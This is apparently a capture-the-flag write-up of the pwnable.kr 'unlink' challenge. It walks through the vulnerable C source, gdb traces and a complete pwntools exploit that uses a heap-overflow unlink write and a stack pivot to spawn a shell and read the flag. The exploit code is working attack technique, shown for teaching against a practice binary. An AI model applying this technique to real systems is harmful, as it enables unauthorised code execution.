

Challenge Description
How much can you control memory with unlink corruption?
ssh unlink@pwnable.kr -p2222 (pw: guest)Let's connect:
ssh unlink@pwnable.kr -p2222In the home directory we see:
flag unlink unlink.cWe have both the binary and its source code available.
Source Code Analysis
// gcc -o unlink unlink.c -m32 -fno-stack-protector -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
struct tagOBJ* fd;
struct tagOBJ* bk;
char buf[8];
} OBJ;
void shell(){
setregid(getegid(), getegid());
system("/bin/sh");
}
void unlink(OBJ* P){
OBJ* BK;
OBJ* FD;
BK=P->bk;
FD=P->fd;
FD->bk=BK;
BK->fd=FD;
}
int main(int argc, char* argv[]){
malloc(2048);
OBJ* A = (OBJ*)malloc(sizeof(OBJ));
OBJ* B = (OBJ*)malloc(sizeof(OBJ));
OBJ* C = (OBJ*)malloc(sizeof(OBJ));
// double linked list: A <-> B <-> C
A->fd = B;
B->bk = A;
B->fd = C;
C->bk = B;
printf("here is stack address leak: %p\n", &A);
printf("here is heap address leak: %p\n", A);
printf("now that you have leaks, get shell!\n");
// heap overflow!
gets(A->buf);
// exploit this unlink!
unlink(B);
return 0;
}The main function:
- Allocates three
OBJstructures (A, B, C) on the heap - Creates a doubly linked list:
A <-> B <-> C - Leaks the stack address of the pointer to A (
&A) - Leaks the heap address of A itself
- Has a heap overflow vulnerability via unbounded
gets(A->buf) - Calls
unlink(B)to remove B from the linked list
Why unlink() is Dangerous
At first, unlink() appears harmless - it just removes an element from a doubly linked list:
Before unlink:
A <-> B <-> CAfter unlink:
A <-> CThis is safe only if B's pointers (fd and bk) are valid. However, since we control B's contents through the heap overflow, we can make unlink() perform arbitrary memory writes.
The unlink() function assumes:
B->fdpoints to a validOBJstructureB->bkpoints to a validOBJstructure
But through gets(A->buf), we can overflow into B and corrupt these pointers!
The Write Primitive
Let's examine what unlink() actually does:
FD = P->fd;
BK = P->bk;
FD->bk = BK; // Write 1: *(FD + 4) = BK
BK->fd = FD; // Write 2: *(BK + 0) = FDLooking at the assembly:
0x08049229 <+16>: mov eax, DWORD PTR [ebp+0x8] ; eax = P (address of B)
0x0804922c <+19>: mov eax, DWORD PTR [eax+0x4] ; eax = P->bk
0x0804922f <+22>: mov DWORD PTR [ebp-0x4], eax ; BK = P->bk
0x08049232 <+25>: mov eax, DWORD PTR [ebp+0x8] ; eax = P (address of B)
0x08049235 <+28>: mov eax, DWORD PTR [eax] ; eax = P->fd
0x08049237 <+30>: mov DWORD PTR [ebp-0x8], eax ; FD = P->fd
0x0804923a <+33>: mov eax, DWORD PTR [ebp-0x8] ; eax = FD
0x0804923d <+36>: mov edx, DWORD PTR [ebp-0x4] ; edx = BK
0x08049240 <+39>: mov DWORD PTR [eax+0x4], edx ; FD->bk = BK
0x08049243 <+42>: mov eax, DWORD PTR [ebp-0x4] ; eax = BK
0x08049246 <+45>: mov edx, DWORD PTR [ebp-0x8] ; edx = FD
0x08049249 <+48>: mov DWORD PTR [eax], edx ; BK->fd = FDTo verify I actually control these pointers, I run the binary in gdb with a cyclic pattern:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa...Inside the unlink function, I hit this:
0x804923a <unlink+33> mov eax, dword ptr [ebp - 8] EAX, [0xff9d9dc0] => 0x61616167 ('gaaa')
0x804923d <unlink+36> mov edx, dword ptr [ebp - 4] EDX, [0xff9d9dc4] => 0x61616168 ('haaa')
► 0x8049240 <unlink+39> mov dword ptr [eax + 4], edx <Cannot dereference [0x6161616b]>
0x8049243 <unlink+42> mov eax, dword ptr [ebp - 4]
0x8049246 <unlink+45> mov edx, dword ptr [ebp - 8]
0x8049249 <unlink+48> mov dword ptr [eax], edxRegister state at the crash:
EAX 0x61616167 ('gaaa')
EDX 0x61616168 ('haaa')This looks very interesting:
eaxcontains our controlled FD value ("gaaa"from the overflow)edxcontains our controlled BK value ("haaa"from the overflow)- At
unlink+39: writesedxto[eax + 4]→ this isFD->bk = BK - At
unlink+48: writesedxto[eax]→ this isBK->fd = FD
Both registers contain data from my input. This means we have an arbitrary write primitive - we can write any value to any memory address (with some constraints).
Failed Attempt: Direct Return Address Overwrite
The challenge after finding an arbitrary write primitive is to figure out what to write and where. My initial idea was to overwrite main()'s return address with shell():
shell()address:0x080491d6(fixed, binary compiled with-no-pie)- Use the stack leak to calculate the return address location
However, this fails because unlink() performs two writes:
FD->bk = BK; // First write: writes shell address to return address (success)
BK->fd = FD; // Second write: *(shell_address) = return_addressThe second write tries to write to the .text segment (read-only), causing a segmentation fault.
The Solution: Stack Pivoting
At this point, I needed a different approach where:
- Both writes performed by
unlink()are to writable memory - I can still influence the control flow
Since I'm given both the heap address of A and a stack address, I thought it was a good direction to explore. As an experiment, I set the fd of B to point to C (heap_leak + 0x40), and bk to some random address on the stack so it would be writable.
If I provide just padding and then point to C, the program doesn't crash and keeps executing. I notice something very interesting at the end of main():
► 0x8049333 <main+229> pop ecx ECX => 0xffffdbc0
0x8049334 <main+230> pop ebx
0x8049335 <main+231> pop ebp
0x8049336 <main+232> lea esp, [ecx - 4]
0x8049339 <main+235> retThose few lines are very interesting, the program pops a value from the stack into ecx, then loads that value into the stack pointer with lea esp, [ecx - 4]! This points the stack to whatever address is in ecx.
The address on the stack of the value that gets popped into ecx is 0xffffdba0 (which is stack_leak + 0xc). I can use this as the bk of B to control what gets written there.
My plan: pivot the stack to point at the heap, write the address of the shell() function there, and when ret executes, it will jump to shell!
I tested this with an initial payload:
from pwn import *
payload = b'aaaabaaacaaadaaaeaaafaaa'
addr_of_c = struct.pack('<I', 0x804d9f0)
pop_into_ecx_address = struct.pack('<I', 0xffffdba0) # address on stack that gets popped into ecx
final_payload = payload + addr_of_c + pop_into_ecx_address + b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH'
with open('input', 'wb') as f:
f.write(final_payload)
print(final_payload)Output: b'aaaabaaacaaadaaaeaaafaaa\xf0\xd9\x04\x08\xa0\xdb\xff\xffAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH'
Running this, after the pop ecx I see:
*ECX 0x804d9f0 ◂— 0x47474747 ('GGGG')Continuing a few more instructions:
► 0x8049336 <main+232> lea esp, [ecx - 4] ESP => 0x804d9ec ◂— 0x46464646 ('FFFF')The stack pointer (esp) is now pointing to 0x804d9ec, which is inside structure C on the heap so we can control it.
Placing the Shell Address
Now I just need to place the shell() address where the ret instruction will find it:
from pwn import *
payload = b'aaaabaaacaaadaaaeaaafaaa'
addr_of_c = struct.pack('<I', 0x804d9f0)
pop_into_ecx_address = struct.pack('<I', 0xffffdba0)
shell = struct.pack('<I', 0x080491d6)
final_payload = payload + addr_of_c + pop_into_ecx_address + b'AAAABBBBCCCCDDDDEEEE' + shell
with open('input', 'wb') as f:
f.write(final_payload)
print(final_payload)Running this:
0x8049336 <main+232> lea esp, [ecx - 4] ESP => 0x804d9ec —▸ 0x80491d6 (shell) ◂— push ebp
► 0x8049339 <main+235> ret <shell>
↓
0x80491d6 <shell> push ebpThe ret instruction now jumps directly to shell()!
Exploitation Strategy
- Overflow A's buffer to override B's
fdandbkpointers - Set
B->fdto point to C (we know C's address: heap_leak + 0x40) - Place
shell()address in C where theretinstruction will find it - Set
B->bkto the stack location that gets popped intoecx(stack_leak + 0xc) - When
unlink(B)executes:C->bk = stack_address(writes to heap, safe)stack[ecx_pop_location] = address_of_C(writes C's address to stack)
- At the stack pivot,
ecxwill contain C's address, soesppoints to the heap
The following diagrams show the state of A, B, C after the heap overflow and after the unlink.
Memory Layout After Exploitation
(A) 0x804d9b0: 0x0804d9d0 0x00000000 0x61616161 0x61616162
0x804d9c0: 0x61616163 0x61616164 0x61616165 0x61616166
(B) 0x804d9d0: 0x0804d9f0 0xffffdba0 0x41414141 0x42424242
0x804d9e0: 0x43434343 0x44444444 0x45454545 0x080491d6
(C) 0x804d9f0: 0x00000000 0xffffdba0 0x48484848 0x00000000
0x804da00: 0x00000000 0x00000000 0x00000000 0x00000411After the stack pivot:
0x8049336 <main+232> lea esp, [ecx - 4] ESP => 0x804d9ec —▸ 0x80491d6 (shell)
► 0x8049339 <main+235> ret <shell>
↓
0x80491d6 <shell> push ebpFinal Exploit
from pwn import *
p = process('/home/unlink/unlink')
line = p.recvline_contains(b'here is stack address leak')
addr_str = line.strip().split(b':')[-1].strip()
stack_leak = int(addr_str, 16)
print(f'Leaked stack addr: {hex(stack_leak)}')
line = p.recvline_contains(b'here is heap address leak')
addr_str = line.strip().split(b':')[-1].strip()
heap_leak = int(addr_str, 16)
print(f'Leaked heap addr: {hex(heap_leak)}')
# receive everything until the program stops and waits for input
lines = p.recv()
print('> ' + lines.decode())
addr_on_stack = struct.pack('<I', stack_leak + 0xc)
shell = struct.pack('<I', 0x080491d6)
addr_of_c = struct.pack('<I', heap_leak + 0x40)
# aaaabaaacaaadaaaeaaafaaa<addr_of_c><addr_on_stack>aaaabbbbccccddddeeee<shell>
payload = b'aaaabaaacaaadaaaeaaafaaa' + addr_of_c + addr_on_stack + b'aaaabbbbccccddddeeee' + shell
print(f'payload: {payload}')
p.sendline(payload)
p.interactive()Running the Exploit
$ python exploit.py
Leaked stack addr: 0xff808c34
Leaked heap addr: 0x9db89b0
> now that you have leaks, get shell!
payload: b'aaaabaaacaaadaaaeaaafaaa\xf0\x89\xdb\t@\x8c\x80\xffaaaabbbbccccddddeeee\xd6\x91\x04\x08'
[*] Switching to interactive mode
$ cat /home/unlink/flag
wr1te_what3ver_t0_4nywh3reCool :)